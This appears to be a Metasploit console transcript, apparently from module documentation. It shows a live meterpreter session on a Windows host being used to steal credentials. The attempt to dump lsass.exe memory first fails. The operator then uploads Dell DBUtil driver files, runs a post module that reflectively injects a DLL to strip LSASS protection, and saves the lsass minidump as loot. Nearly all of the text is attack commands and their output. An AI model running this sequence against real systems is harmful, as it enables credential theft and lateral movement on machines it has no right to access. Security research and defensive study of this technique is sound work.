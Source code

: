 ```

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 732  568   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/memory_dump) > set PID 732
PID => 732
msf6 post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DESKTOP-JCD6JN8
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_5/ C:\\Windows\\Temp\\
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf6 post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp\\
DRIVER_PATH => C:\Windows\Temp\
msf6 post(windows/manage/dell_memory_protect) > set PID 732
PID => 732
msf6 post(windows/manage/dell_memory_protect) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Launching netsh to host the DLL...
[+] Process 3508 launched.
[*] Reflectively injecting the DLL into 3508...
[+] Exploit finished
[*] Post module execution completed
msf6 post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump 
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DESKTOP-JCD6JN8
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.93 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211208072121_default_172.16.144.6_windows.process._495675.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > 
```
